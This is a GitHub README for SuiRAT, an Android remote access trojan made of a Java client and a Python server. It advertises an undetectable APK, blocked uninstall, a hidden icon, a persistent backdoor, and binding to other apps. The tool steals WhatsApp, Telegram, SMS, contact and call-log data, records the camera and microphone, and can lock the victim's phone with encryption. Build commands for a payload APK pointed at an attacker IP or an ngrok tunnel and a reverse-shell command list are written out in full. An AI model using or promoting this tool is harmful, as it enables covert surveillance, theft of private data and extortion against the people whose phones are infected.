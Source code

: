 <p align="center">
<img src="https://github.com/alewana/SuiRAT/blob/3801fe91238db3fd972e5b6da317e3dc4483d987/SuiRAT.png" height="60"><br>
SuiRAT is a client/server application developed in Java Android for the client side and the Server is in Python
</p>



## Features
- ✅ Fud Apk
- ✅ Anti Uninstall Android (4.4 to 10)
- ✅ Light Weight Apk Which Runs 24*7 in Background
- ✅ Full Persistent Backdoor 
- ✅ Invisible Icon On Install
- ✅ Real Time
- ✅ Receive Any File or Folder From Target Device
- ✅ Bind With Other Apps
- ✅ Fetch All Whatsapp Photo,Video
- ✅ Fetch All Ahatsapp Contacts
- ✅ Receive All Target Message
- ✅ Send Sms With Target Device To Any Number
- ✅ Recive All Target Contacts
- ✅ Fetch All Telegram Contacts
- ✅ Fetch All Telegram Docs,Image,VideosVideos
- ✅ Get Ip Address From Target Device
- ✅ Get MacAddress From Target Device
- ✅ Receive List of All Installedd Apps In Target Device
- ⏳ Delete Any File Or Folder From Target Device
- ⏳ Capture Main And Front Camera
- ⏳ Record Main And Front Camera
- ⏳ Capture Microphone
- ⏳ Receive last Clipboard Text



## TODO
- ~~Ngrok Support~~
- Add screenshot command
- Add Screen Mirroring
- Add WebPanel

## Installation
### For Termux Users
- `apt update -y`
- `apt upgrade -y`
- `apt install python -y`
- `apt install python2 -y`
- `apt install python3 -y`
- `apt install git -y`
- `apt install openjdk-17 -y`
- `curl -s https://raw.githubusercontent.com/rendiix/rendiix.github.io/master/install-repo.sh`
- `pkg install zipalign`
- `git clone https://github.com/alewana/SuiRAT.git`
- `cd SuiRAT`
- `pip install -r requirements.txt`

## Prerequisites
SuiRAT requires Python3 and JAVA (or Android Studio)

### For Linux/Nethunter
1. Instal zipalign `curl -s https://raw.githubusercontent.com/rendiix/rendiix.github.io/master/install-repo.sh`
2. Install `pkg install zipalign`

3. Clone `git clone https://github.com/alewana/SuiRAT.git`

4. Goto server directory `cd SuiRAT`

5. Install Requirements `pip install -r requirements.txt`

##### SuiRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> SuiRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
     deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a interactive shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    Dump Telegram [Premium] --> Dump Telegram Docs,Images,Video 
    getIP                      --> returns the ip of the device
    Dump Whatsapp [Premium]  -> Dump Whatsapp Database Massages
    getClipData                --> return the current saved text from the clipboard
    getMACAddress            --> returns the mac address of the device
    Lock Device  [Premium]   --> Lock Mobile with 256 bit Encryption
    Unlock Device.          --> Unlock Victim Mobile with 256 Decryption
    exit                       --> exit the SuiRAT
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 SuiRAT.py --build --ngrok -o Payload.apk```

* To build the apk using desired ip and port:
```python3 SuiRAT.py --build -i 192.169.x.x -p 8000 -o Payload.apk```

* To get the interpreter:
```python3 SuiRAT.py --shell -i 0.0.0.0 -p 8000```


### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python3 SuiRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "alewana.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python3 SuiRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 SuiRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

## Thanks
 - Inspiration for the project and the basic building blocks for the Android App are based off [AndroRAT](https://github.com/karma9874/AndroRAT) 
 
## Contact Info

Any Problem Contact Me [Telegram](https://t.me/Sui_RAT)

## Disclaimer
<b>I ( Ahtisham a.k.a AlewanaEzexer )  Provides no warranty with this software and will not be responsible for any direct or indirect damage caused due to the usage of this tool.<br>
SuiRAT is built for both Educational and Internal use ONLY.</b>
